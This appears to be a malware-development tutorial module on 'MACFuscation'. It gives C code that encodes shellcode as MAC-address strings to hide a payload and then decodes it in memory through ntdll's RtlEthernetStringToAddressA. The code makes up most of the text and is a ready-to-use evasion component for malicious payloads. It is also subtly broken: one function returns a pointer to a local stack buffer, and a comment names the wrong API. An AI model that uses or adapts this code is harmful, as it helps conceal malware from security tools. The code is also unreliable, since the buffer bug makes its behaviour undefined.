

Introduction
This module will go through another obfuscation technique that is similar to IPv4/IPv6fuscation but instead converts shellcode to MAC addresses.
MACFuscation Implementation
The implementation of MACFuscation will be similar to what was done in the previous module with IPv4/IPv6fuscation. A MAC address is made up of 6 bytes, therefore the shellcode should be a multiple of 6, which again can be padded if it doesn't meet that requirement.
// Function takes in 6 raw bytes and returns them in a MAC address string format
char* GenerateMAC(int a, int b, int c, int d, int e, int f) {
char Output[64];
// Creating the MAC address and saving it to the 'Output' variable
sprintf(Output, "%0.2X-%0.2X-%0.2X-%0.2X-%0.2X-%0.2X",a, b, c, d, e, f);
// Optional: Print the 'Output' variable to the console
// printf("[i] Output: %s\n", Output);
return (char*)Output;
}
// Generate the MAC output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateMacOutput(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
// If the shellcode buffer is null or the size is not a multiple of 6, exit
if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 6 != 0){
return FALSE;
}
printf("char* MacArray [%d] = {\n\t", (int)(ShellcodeSize / 6));
// We will read one shellcode byte at a time, when the total is 6, begin generating the MAC address
// The variable 'c' is used to store the number of bytes read. By default, starts at 6.
int c = 6, counter = 0;
char* Mac = NULL;
for (int i = 0; i < ShellcodeSize; i++) {
// Track the number of bytes read and when they reach 6 we enter this if statement to begin generating the MAC address
if (c == 6) {
counter++;
// Generating the MAC address from 6 bytes which begin at i until [i + 5]
Mac = GenerateMAC(pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3], pShellcode[i + 4], pShellcode[i + 5]);
if (i == ShellcodeSize - 6) {
// Printing the last MAC address
printf("\"%s\"", Mac);
break;
}
else {
// Printing the MAC address
printf("\"%s\", ", Mac);
}
c = 1;
// Optional: To beautify the output on the console
if (counter % 6 == 0) {
printf("\n\t");
}
}
else {
c++;
}
}
printf("\n};\n\n");
return TRUE;
}Deobfuscating MACFuscation Payloads
The deobfuscation process will reverse the obfuscation process, allowing a MAC address to generate bytes instead of using bytes to generate a MAC address. Performing deobfuscation will require the use of the NTDLL API function RtlEthernetStringToAddressA. This function converts a MAC address from a string representation to its binary format.
typedef NTSTATUS (NTAPI* fnRtlEthernetStringToAddressA)(
PCSTR S,
PCSTR* Terminator,
PVOID Addr
);
BOOL MacDeobfuscation(IN CHAR* MacArray[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {
PBYTE pBuffer = NULL,
TmpBuffer = NULL;
SIZE_T sBuffSize = NULL;
PCSTR Terminator = NULL;
NTSTATUS STATUS = NULL;
// Getting RtlIpv6StringToAddressA address from ntdll.dll
fnRtlEthernetStringToAddressA pRtlEthernetStringToAddressA = (fnRtlEthernetStringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlEthernetStringToAddressA");
if (pRtlEthernetStringToAddressA == NULL) {
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Getting the real size of the shellcode which is the number of MAC addresses * 6
sBuffSize = NmbrOfElements * 6;
// Allocating memeory which will hold the deobfuscated shellcode
pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
if (pBuffer == NULL) {
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
TmpBuffer = pBuffer;
// Loop through all the MAC addresses saved in MacArray
for (int i = 0; i < NmbrOfElements; i++) {
// Deobfuscating one MAC address at a time
// MacArray[i] is a single Mac address from the array MacArray
if ((STATUS = pRtlEthernetStringToAddressA(MacArray[i], &Terminator, TmpBuffer)) != 0x0) {
// if it failed
printf("[!] RtlEthernetStringToAddressA Failed At [%s] With Error 0x%0.8X", MacArray[i], STATUS);
return FALSE;
}
// 6 bytes are written to TmpBuffer at a time
// Therefore Tmpbuffer will be incremented by 6 to store the
TmpBuffer = (PBYTE)(TmpBuffer + 6);
}
// Save the base address & size of the deobfuscated payload
*ppDAddress = pBuffer;
*pDSize = sBuffSize;
return TRUE;
}The image below shows the deobfuscation process successfully running.
